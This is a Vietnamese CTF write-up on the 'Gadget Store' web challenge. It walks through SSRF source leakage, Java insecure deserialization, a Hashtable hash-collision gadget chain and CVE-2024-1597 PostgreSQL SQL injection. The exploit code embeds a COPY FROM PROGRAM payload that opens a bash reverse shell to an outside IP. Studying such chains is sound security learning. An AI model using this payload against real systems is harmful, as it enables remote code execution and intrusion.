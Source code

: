 +++
date = '2025-09-26T21:00:00+07:00'
draft = false
title = 'Phân tích nhanh gadget chain trong challenge Gadget Store'
+++

# Gadget Store

Đây là một challenge web trong khuôn khổ sự kiện Smart Banking 6th.

# Tóm tắt

Trang web là một cửa hàng cho phép người dùng mua hàng, các sản phẩm đã mua sẽ được lưu trong session. Khi người dùng export thông tin mua hàng, thông tin mua hàng sẽ được serialized và người dùng tải về, ngược lại người dùng cũng có thể upload file .ser (chứa data đã serialized) để import thông tin mua hàng mua mình.

# Soluction

Bài này mình không làm được cho đến tận khi có writeup nên dưới đây chỉ là những thông tin mình tổng hợp và tóm tắt lại.

## Leak source code via SSRF

Trang web tồn tại lỗ hổng tại chức năng preview hình ảnh, server sẽ truy cập url được cung cấp bởi người dùng và trả về dữ liệu được base64 encoded.

Server đã filter một số protocol đọc file:

```java
public boolean isValidScheme(String scheme) {
        return !scheme.contains("jar") && !scheme.contains("ftp") && !scheme.contains("jrt") && !scheme.contains("file");
}
```

Tuy nhiên ta vẫn có thể sử dụng protocol `url:classpath://` để lấy được source code (class file).

## Insecure Deserialization

Tồn tại lỗ hổng Insecure Deserialization tại method:

```java
public String importPurchases(HttpSession session, Part filePart) {
        [...SNIP...]
        try {
            Object obj = ois.readObject();
            if (!(obj instanceof List)) {
                var13 = "error:An error occurred when importing purchases";
                break label60;
            }

            List<Gadget> purchases = (List)obj;
            session.setAttribute("purchases", purchases);
            var7 = "success:Imported " + purchases.size() + " purchases";
        } catch (Throwable var10) {
            [...SNIP...]
        }
        [...SNIP...]
}
```

Như đã nói, trang web cho phép người dùng import thông tin mua hàng thông qua deserialized data, và cũng không có cơ chế kiểm tra đầu vào nào được triển khai, dẫn đến ta có thể deserialize tùy ý.

## SQL Injection

Thư viện `org.postgresql:org.postgresql:42.7.1` tồn tại [lỗ hổng SQL Injection](https://github.com/advisories/GHSA-24rp-q3w6-vc56).
Để khai thác lỗ hổng này ta cần một số điều kiện.

![Điều kiện khai thác CVE-2024-1597](images/image.png)

Thật may mắn làm sao khi mọi điều kiện đều được thỏa mãn:

```java
private DataSource getDataSource() throws SQLException {
        String url = String.format("jdbc:postgresql://%s:5432/%s?user=%s&password=%s&ssl=false&connectTimeout=10", this.host, this.database, this.user, this.password);
        DataSource dataSource = new DataSource(this.getProperties(url));
        return dataSource;
}
```

## Exploit chain

Để có thể khai thác được SQLi, ta cần chạm được đến method `equals()` của class `UserDAO` kèm với một Map object chứa các value đã được ta kiểm soát.
Ta có thể đạt được điều này nhờ kết hợp với lỗ hổng Insecure Deserialize bên trên.
Có được gadget chain như sau:

```java
java.util.Hashtable.readObject()
    java.util.Hashtable.reconstitutionPut()
        java.util.AbstractMap.equals()
            dao.UserDAO.equals()
```

Về cơ bản chain này lợi dụng hash collision các key của Hashtable để gọi đến method `equals()` của key bên trong nó.
Nhưng mình sẽ giải thích kỹ một chút các ta tạo ra hash collision.

Dưới đây là code exploit

```java
UserDAO userDAO = new UserDAO();
Database db = new Database();
Field pwField = db.getClass().getDeclaredField("password");
pwField.setAccessible(true);
pwField.set(db, "9def3b1c8a63051a5cdf91ed1b35edfa&preferQueryMode=simple");

LinkedHashMap<String, Object> map = new LinkedHashMap<>();
map.put("amount", Double.valueOf(-100.0D));
map.put("username", "\n;CREATE TEMP TABLE output_table (line text);COPY output_table FROM PROGRAM $$bash -c \"bash -i >& /dev/tcp/160.250.134.146/4444 0>&1\"$$; --");
LinkedHashMap<String, Object> map1 = new LinkedHashMap<>();
map1.put("12", userDAO);
map1.put("34", map);
LinkedHashMap<String, Object> map2 = new LinkedHashMap<>();
map2.put("34", userDAO);
map2.put("12", map);

Hashtable<Object, Object> hashtable = new Hashtable<>();
hashtable.put(map1, 111);
hashtable.put(map2, 222);
```

Khi hashtable được deserialize, key của các phần tử sẽ được tính toán hashCode trước khi put vào hashtable. Khi có hai key có cùng 1 hash, nó sẽ kiểm tra xem 2 key có giống nhau không bằng cách gọi hàm `equals()` của key.

![image](images/image-1.png)

Sau đây mình sẽ phân tích tại sao code exploit trên có thể tạo ra được hash collision.
Trước tiên ta cần biết cách class `LinkedHashMap` tính hashCode.
Về bản chất class `LinkedHashMap` không implement method `hashCode()` nên nó sử dụng method này của class `AbstractMap`.

![alt text](images/image-2.png)

Method `hashCode()` của entry (`LinkedHashMap$Entry`)

![alt text](images/image-3.png)

Nên ta có thể thay thế `LinkedHashMap` với những class extends `AbstractMap` và không tự triển khai method `hashCode()`.

Ví dụ ta có một object `linkedHasMap1` có 2 entry `<1, "string1">` và `<2, "string2">`, thì `hashCode` của nó sẽ là
```
hashCode(<1, "string1">) + hashCode(<2, "string2">) = hashCode(1) + hashCode("string1") + hashCode(2) + hashCode("string2")
```

Vậy ở code exploit phía trên `hashtable` có 2 `LinkedHashMap` với `hashCode` của `map1` là:
```
hashCode(<12, userDAO>) + hashCode(<34, map>) = hashCode(12) + hashCode(userDAO) + hashCode(34) + hashCode(map)
```
và `hashCode` của `map2`:
```
hashCode(<12, map>) + hashCode(<34, userDAO>) = hashCode(12) + hashCode(map) + hashCode(34) + hashCode(userDAO)
```
Rõ ràng là chúng bằng nhau với quy tắc hoán vị, vậy là ta đã thành công tạo ra hash collision để trigger được method `equals()`.

Phần còn lại của challenge là khai thác lỗ hổng SQL Injection để đọc được `/flag*.txt`

# Kết

Qua challenge này mình nhận ra một cách rõ ràng hơn là mình còn quá yếu trong món Java nói chung và Java Insecure Deserialization nói riêng, mình đã ngồi hơn 3 ngày chỉ để đi tìm gadget chain nhưng không được, tưởng "xa tận chân trời mà gần ngay trước mắt".